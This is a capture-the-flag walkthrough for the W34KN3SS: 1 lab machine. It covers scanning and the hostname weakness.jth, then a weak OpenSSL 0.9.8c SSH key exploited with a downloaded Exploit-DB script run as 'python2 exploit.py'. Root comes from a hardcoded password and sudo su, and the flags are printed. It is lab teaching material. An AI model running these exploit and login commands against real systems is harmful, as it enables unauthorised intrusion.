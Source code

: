 # W34KN3SS: 1

### Nmap Scan

```bash
PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 de:89:a2:de:45:e7:d6:3d:ef:e9:bd:b4:b6:68:ca:6d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCvkgmVahuBlxM6WUy6NSEAmWnYQbfKfrHwxT0rlZleQQ6Hyjd435lLBiA1kSyHzYxQ2l2WhiXefSycEtI8FntMjnOEFahCgobvsP5HblaUGAxmh+RPId+/U0OPwbF8WEtE2aM7ynaJ3eJt02iyHoFSTICNNiwAMX1sde/ADI2zXkssrjerwyTJLrI5JO1girvHJcJxJWvS3HFHyZbksKK6giPy7E8Q6Uz0sp5p+Qx4iqZ9kHkwwLZ+Yk56BupHZDvjDWx9Pi8qhnlwgaqUj/RbG/eEylxRtqQn2i1A6TQrWMcMTpN+P25Ws9TPV8cRiDQwEX+bx30HHgc5AQ+YDRkf
|   256 1d:98:4a:db:a2:e0:cc:68:38:93:d0:52:2a:1a:aa:96 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDyK5qz3tcYxvzJVZO2izBdS3LucZE0hUU4mOTja1WHO7Ma3plgqQoL52O+svarU9eHvf0sW5GqD02Bf+4ZQbWo=
|   256 3d:8a:6b:92:0d:ba:37:82:9e:c3:27:18:b6:01:cd:98 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEOKeds8hqs+e9SnwnrnhhoV8IRh/CUlCgMmdTroLiuG

80/tcp  open  http     syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

443/tcp open  ssl/http syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=weakness.jth/organizationName=weakness.jth/stateOrProvinceName=Jordan/countryName=jo/localityName=Amman/emailAddress=n30@weakness.jth
| Issuer: commonName=weakness.jth/organizationName=weakness.jth/stateOrProvinceName=Jordan/countryName=jo/localityName=Amman/emailAddress=n30@weakness.jth
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2018-05-05T11:12:54
| Not valid after:  2019-05-05T11:12:54
| MD5:   f921:c4be:2c6e:89d6:adaf:a7c2:8f39:a87d
| SHA-1: 0b44:5a28:c4da:0bf8:b308:a782:4081:1218:101e:0feb
```

---

### Website

![website.png](./images/website.png)

- There is a host name on nmap scan → `weakness.jth`
- save this to /etc/hosts

> **Note: The SSL certificate is issued for weakness.jth. If this hostname is not added to your /etc/hosts file, your browser may resolve to a different website that is not vulnerable, leading to confusion during the assessment.**
> 

![hide.png](./images/hide.png)

---

### Hidden Directory

```
/private
/robots.txt
/index.html                 
```

---

### Getting SSH Access

- There is a `private` directory.

![private.png](./images/private.png)

- Hiidden dir has → `notes.txt`

```
this key was generated by openssl 0.9.8c-1
```

- Here the → `openssl 0.9.8c-1` is vulnerable.
- After Google Search we got exploit

![payload.png](./images/payload.png)

> **Steps To Execute This Payload:**
> 

![unzip.png](./images/unzip.png)

1. Download the compressed file 

```bash
 wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/5622.tar.bz2
```

1. decompress the file 

```bash
tar -xvjf 5622.tar.bz2 
```

1. Execute python script 

```bash
python2 exploit.py ../SSH/rsa/2048 10.176.154.122 n30 22 5
```

- Update the path `/SSH/rsa/2048` to match the location where you extracted the files.

> **NOTE: This script take some time**
> 

![ssh-success.png](./images/ssh-success.png)

---

### SSH Login

```bash
ssh -ln30 -p22 -i ../SSH/rsa/2048/4161de56829de2fe64b9055711f531c1-2537 10.176.154.122
```

![login-ssh.png](./images/login-ssh.png)

- **User Flag:**

![user-flag.png](./images/user-flag.png)

```
25e3cd6
```

---

### Privilege Escalation

- There is a Python script located in the home directory with read, write, and execute permissions.
- And also there is a duplicate of this script, with the same permissions, also exists in the `/opt` directory i

![code.png](./images/code.png)

- Start python server and in target machine and get a `code` file in own machine

```bash
python3 -m http.server 8080
```

```bash
wget http://IP:8080/code
```

![python-server.png](./images/python-serve.png)

![wget.png](./images/wget.png)

- Let’s decompile this python script
- **Ensure that the file extension is changed to `.pyc`**

> **Decompile Link → https://www.decompiler.com/**
> 

![code-decompile.png](./images/code-decompile.png)

```python
# uncompyle6 version 3.9.0
# Python bytecode version base 2.7 (62211)
# Decompiled from: Python 3.8.10 (default, Nov 22 2023, 10:22:35) 
# [GCC 9.4.0]
# Embedded file name: code.py
# Compiled at: 2018-05-08 17:50:54
import os, socket, time, hashlib
print ('[+]System Started at : {0}').format(time.ctime())
print '[+]This binary should generate unique hash for the hardcoded login info'
print '[+]Generating the hash ..'
inf = ''
inf += chr(ord('n'))
inf += chr(ord('3'))
inf += chr(ord('0'))
inf += chr(ord(':'))
inf += chr(ord('d'))
inf += chr(ord('M'))
inf += chr(ord('A'))
inf += chr(ord('S'))
inf += chr(ord('D'))
inf += chr(ord('N'))
inf += chr(ord('B'))
inf += chr(ord('!'))
inf += chr(ord('!'))
inf += chr(ord('#'))
inf += chr(ord('B'))
inf += chr(ord('!'))
inf += chr(ord('#'))
inf += chr(ord('!'))
inf += chr(ord('#'))
inf += chr(ord('3'))
inf += chr(ord('3'))
hashf = hashlib.sha256(inf + time.ctime()).hexdigest()
print ('[+]Your new hash is : {0}').format(hashf)
print '[+]Done'
```

- In this python script there is a password for n30 user → `dMASDNB!!#B!#!#33`

> **Password: dMASDNB!!#B!#!#33**
> 

```
username = n30 
password = dMASDNB!!#B!#!#33
```

- User n30 can run all commands with sudo (sudo access to ALL).

```bash
sudo -l
```

![sudo.png](./images/sudo.png)

- **ROOT ACCESS:**

```bash
sudo su 
```

![root.png](./images/root.png)

- Root Flag

```
a1d2fab76ec6af9b651d4053171e042e
```